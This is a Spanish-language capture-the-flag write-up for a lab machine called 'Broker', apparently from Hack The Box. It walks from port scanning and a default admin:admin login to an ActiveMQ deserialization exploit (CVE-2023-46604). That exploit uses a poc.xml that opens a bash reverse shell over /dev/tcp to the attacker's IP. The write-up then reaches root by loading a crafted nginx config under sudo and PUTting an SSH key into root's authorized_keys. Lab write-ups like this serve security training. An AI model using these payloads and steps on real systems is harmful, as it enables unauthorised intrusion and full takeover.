

# Broker

<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades a tratar</strong>
      <ul>
        <li>Credential guessing</li>
        <li>ActiveMQ Exploitation - Deserialization Attack (CVE-2023-46604) [RCE]</li>
        <li>Abusing sudoers privilege (nginx) [Privilege Escalation]</li>
      </ul>
    </td>
  </tr>
</table>

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles están abiertos y lo exportamos al fichero `allports`.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.243 -oG allports
```

```shell
PORT      STATE SERVICE     REASON
22/tcp    open  ssh         syn-ack ttl 63
80/tcp    open  http        syn-ack ttl 63
1883/tcp  open  mqtt        syn-ack ttl 63
5672/tcp  open  amqp        syn-ack ttl 63
8161/tcp  open  patrol-snmp syn-ack ttl 63
36091/tcp open  unknown     syn-ack ttl 63
61613/tcp open  unknown     syn-ack ttl 63
61614/tcp open  unknown     syn-ack ttl 63
61616/tcp open  unknown     syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p22,80,1883,5672,8161,36091,61613,61614,61616 10.10.11.243 -oN targeted
```
```shell

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
|_mqtt-subscribe: Failed to receive control packet from server.
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
36091/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       Jetty 9.4.39.v20210325
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title.
61616/tcp open  apachemq   ActiveMQ OpenWire transport 5.15.15

```
## ¿Qué es ActiveMQ?

Es un agente de mensajería de código abierto que permite la comunicación asíncrona entre diferentes aplicaciones y sistemas. Al actuar como un intermediario de mensajes, facilita el intercambio de datos sin que los sistemas deban estar en línea al mismo tiempo, utilizando el protocolo JMS y otros estándares de la industria. Es una herramienta popular para la integración de aplicaciones empresariale

## Examinar la página

Cuando accedemos a la página nos encontramos con un panel de login en el que hay que autenticarse para poder acceder a el. 

Antes de hacer ningún ataque de fuerza bruta probamos con las credenciales habituales por lo tanto podemos acceder con las siguientes credenciales.

```
admin:admin
```


Una vez que accedemos buscamos credenciales o algún directorio donde podamos subir ficheros y aprender como funciona, sin embargo no encontramos nada interesante.

## Explotación e Intrusión en el sistema

Buscamos si esta aplicación es vulnerable en la version que tenemos `ActiveMQ OpenWire transport 5.15.15`

Encontramos este repositorio que explota una vulnerabilidad de deserialización logrando ejecución de comandos. 
```
https://github.com/pulentoski/CVE-2023-46604
```
Para explotarla modificamos el archivo `poc.xml` es el fichero que nos va a permitir entablarnos la `revershell`

poc.xml:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.34/4444 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
Montamos un servidor con python para que la pagina pueda acceder al recurso por el puerto 8000

```shell
python3 -m http.server 8000
``` 

Por otro lado nos ponemos en escucha con la herramienta `penelope` para obtener la shell con el trataiento de la TTY ya realizado para ir más rápido. Se puede acceder a ella mediante este repositorio.

```
https://github.com/brightio/penelope
```

Ejecutamos la aplicación y por defecto se pone en el puerto 4444

```shell
penelope
```
Por último ejecutamos el script para deserializar y obtener la shell

```shell
python3 CVE-2023-46604.py -i 10.10.11.243 -u "http://10.10.14.34:8000/poc.xml"
```

Finalmente comprobamos que todo ha funcionado y hemos obtenido una shell interactiva

```shell
penelope        
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 192.168.139.130 • 172.17.0.1 • 10.10.14.34
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from broker~10.10.11.243-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/broker~10.10.11.243-Linux-x86_64/2025_11_04-16_22_01-483.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ls
activemq  activemq-diag  activemq.jar  env  linux-x86-32  linux-x86-64  macosx  wrapper.jar
```

## Escalada de privilegios

Para la escalda de privilegios ejecutamos los comandos habituales comprobamos que podemos ejecutar como usuario `activemq` y con root nos encontramos con un binaro nginx 


```shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
Para la escalada podemos diseñar nuestro propio `nginx.conf` para posteriormente ejecutarlo con la opcion -c

```shell
cp /etc/nginx/nginx.conf /tmp/
```

Modificamos el fichero de la siguiente manera:
  - Modificamos el user para que sea `root`
  - Modificamos el puerto en mi caso he puesto el `1236`
  - Modificamos desde donde tiene acceso en nuestor caso desde `/` con privilegios
  - El parámetro `autoindex on` es para que nos permita listar los directorios desde el navegador
  - El parámetro `dav_methods PUT` es necesario para poder permitir la transferencia por Curl y el método PUT

```shell
user root;
worker_processes 4;
pid /tmp/nginx.pid;

  events {
    worker_connections 50;
  }

  http {
    server {
      listen 1236;
      root /;
      autoindex on;
      dav_methods PUT;
    }
}
```

Ejecutamos el fichero `nginx.conf` de la siguiente manera con privilegios

```shell
sudo nginx -c /tmp/nginx.conf
```
Nos dirigimos al navegador y vemos que tenemos capacidad de listar los archivos con todos los permisos, sin embargo aún no tenemos acceso con una terminal con privilegios para ello al tener el puerto 22 abierto podemos orientar el acceso por la tranferencia de nuestra clave pública.

Para ello nos percatamos de que existe el directorio `.ssh` con el directorio de `authorized_keys` que se encuentra vacío. 

```shell
http://10.10.11.243:1236/root/.ssh/authorized_keys
```

Para obtener la shell con privilegios generamos un par de claves para posteriomente tranferir la pública mediante `Curl`.

Generamos el par de claves:

```shell
ssh-keygen
```
Transferimos las claves al directorio `authorized_keys` con el parametro `-d` enviamos el contenido de la clave

```
curl -s -X PUT http://10.10.11.243:1236/root/.ssh/authorized_keys -d 'contenido_ip_publica'
```

Finalemente si todo ha ido de manera correcta tendremos acceso con privilegios.

```shell
ssh root@10.10.11.243
```